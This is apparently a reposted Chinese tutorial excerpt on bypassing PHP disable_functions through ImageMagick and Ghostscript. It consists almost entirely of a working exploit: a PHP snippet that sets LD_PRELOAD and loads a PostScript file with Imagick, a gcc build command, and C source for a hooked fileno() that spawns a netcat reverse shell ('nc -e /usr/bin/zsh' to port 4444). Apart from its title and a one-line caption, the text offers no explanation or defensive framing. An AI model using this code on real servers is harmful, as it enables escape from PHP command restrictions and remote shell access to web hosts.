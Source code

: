 > 原文：[http://book.iwonder.run/安全技术/Disable functions/3.html](http://book.iwonder.run/安全技术/Disable functions/3.html)

## **imagemagick+GhostScript**

**exp**

```
<?php
putenv('LD_PRELOAD=/var/www/html/imag.so');
$img = new Imagick('/tmp/1.ps');
?> 
```

其中 imag.c 文件需要编译，命令如下

```
gcc -shared -fPIC imag.c -o imag.so 
```

> imag.c 代码

```
#include <stdlib.h>
#include <string.h>
void payload() {
  const char* cmd = "nc -e /usr/bin/zsh 127.0.0.1 4444";
  system(cmd);
}
int fileno() {
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
    payload();
} 
```

